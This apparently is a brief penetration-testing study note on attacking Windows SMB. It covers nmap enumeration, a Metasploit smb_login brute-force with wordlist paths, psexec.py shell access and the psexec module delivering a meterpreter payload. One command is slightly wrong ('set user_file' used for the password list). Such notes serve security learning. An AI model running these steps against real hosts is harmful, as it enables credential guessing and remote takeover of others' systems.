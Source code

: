 # Exploiting SMB

PS Exec requires legitimate credentials  
SMB login brute force attach is the best attack for this  - _We can narrow down to the username **Administrator**_

## Enumerate
Use nmap -sC -sV to verify SMB version  
Message signing enabled but not required - This means we can authenticate with PSexec

## Brute Force
```service postgresql start && msfconsole```

**Module** - auxiliary/scanner/smb/smb_login
user file - ```set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt```  
Password file - ```set user_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt```  
Turn off Verbose

## psexec.py 
Since we cannot run .exe files on linux, we are going to use psexec.py

```psexec.py (username)@(Target IP address) cmd.exe```

## Extending attack - Metasploit
**Module** - exploit/windows/smb/psexec  
_This will authenticate through SMB and upload a meterpreter payload and execute it. This provides us with a meterpreset session_
